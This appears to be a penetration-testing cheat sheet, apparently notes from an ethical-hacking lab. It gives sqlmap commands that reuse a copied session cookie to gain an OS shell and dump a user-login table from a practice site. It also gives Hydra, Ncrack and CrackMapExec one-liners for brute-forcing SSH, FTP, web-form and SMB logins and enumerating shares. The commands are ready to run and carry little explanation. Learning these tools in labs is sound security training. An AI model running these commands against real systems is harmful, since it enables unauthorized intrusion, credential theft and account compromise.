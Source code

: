#SQLMAP
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump 

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step#7]" --dbs 
##nfs mount commands

# ========================
# 🔐 HYDRA CHEATSHEET
# ========================

# 📌 Basic Syntax:
hydra [options] -L userlist -P passlist service://target
hydra [options] -l user -P passlist service://target

# ✅ Single Username:
hydra -l admin -P passwords.txt ssh://192.168.1.10

# ✅ User List:
hydra -L users.txt -P passwords.txt ssh://192.168.1.10

# 🔄 Supported Modules:
# ssh, ftp, http-get, http-post, rdp, smb, vnc, telnet, mysql

# 🔸 HTTP GET Form:
hydra -l admin -P passwords.txt 192.168.1.10 http-get-form "/login.php:username=^USER^&password=^PASS^:F=Incorrect"

# 🔸 HTTP POST Form:
hydra -l admin -P passwords.txt 192.168.1.10 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

# Notes:
# - F= string to detect failure
# - S= string to detect success (optional)

# ========================
# 💥 NCRACK CHEATSHEET
# ========================

# 📌 Basic Syntax:
ncrack -p [service] -u [user] -P [passlist] [target]

# ✅ Single Username:
ncrack -p ssh -u admin -P passwords.txt 192.168.1.10

# ✅ User List:
ncrack -p ssh --userfile users.txt --passfile passwords.txt 192.168.1.10

# 🔄 Supported Services:
# ssh, ftp, rdp, http, smb, mysql, telnet

# ================================
# 🎯 CRACKMAPEXEC (CME) CHEATSHEET
# ================================

# ✅ Single Username:
crackmapexec smb 192.168.1.10 -u admin -p password123

# ✅ User List:
crackmapexec smb 192.168.1.10 -u users.txt -p passwords.txt

# 🔍 Enumerate SMB Shares:
crackmapexec smb 192.168.1.10 -u admin -p password123 --shares

# 🔐 Check Admin Access:
crackmapexec smb 192.168.1.10 -u admin -p password123 --admin-check

# 🧠 Notes:
# - Supports WinRM, RDP, SMB, MSSQL, etc.
# - CME is useful for post-exploitation AD enumeration
